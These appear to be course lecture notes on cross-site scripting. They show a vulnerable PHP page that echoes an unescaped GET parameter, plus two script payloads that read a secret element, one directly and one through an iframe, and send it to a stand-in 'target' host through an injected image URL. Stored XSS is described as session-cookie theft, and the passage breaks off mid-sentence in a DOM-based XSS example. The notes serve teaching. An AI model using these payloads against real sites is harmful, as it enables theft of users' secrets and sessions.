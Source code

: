 ## Retrieve Info and Send the Info
Usually hacker want to send the secret data from website to his own website. In order to do so, hacker can do this kind of payload on following website.
```html
<head>
<title>CS492</title>
<body>
<span id= 'secret'> Your Secret! </span>
<?php
$name = $_GET['name'];
>
...
<body>
<p> Your name is <?=$name?> here </p>….
``` 
Payload is `name=<script>let sec = document. getElementById("secret").innerText;document.body.innerHTML += "<img src=‘target?secret=" + sec +"'>";</script>`.
## Retrieve Info in Another Page
Suppose our secret is in iframe.
```html
<head>
<title>CS492</title>
<body>
<iframe id='x' src='sensitive.php'></iframe>
<?php
$name = $_GET['name'];
>
...
<body>
<p> Your name is <?=$name?> here </p>...
```
`sensitive.php`
```html
<head>
<title>CS492</title>
<body>
<span id= 'secret'> Your Secret! </span>
```
Then we can simply make this kind of payload `name=<script>let sec=x.contentDocument.getElementById("secret").innerText;document.body.innerHTML += "<img src=‘target?secret=" + sec +"'>";</script>` which will send the secret to attacker's website.
## Stored XSS
Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

Usually stored xss attack looks like this:
1. Hacker discovers a website having a vulnerability that enables script injection.
2. Hacker injects the website with a malicious script that steals each visitor's session cookies.
3. For each visit to the website, the malicious script is activated.
4. Visitor's session cookie is sent to the hacker.
5. (There might be case that photo uploaded is script.)
## DOM-based XSS
An attack payload is executed by modifying the DOM "environment" used by the original client side script
## DOM-based XSS example
```html
<script>
document.write(
"<b>Current URL</b> : " + document.baseURI);
</script>
```
If our payload is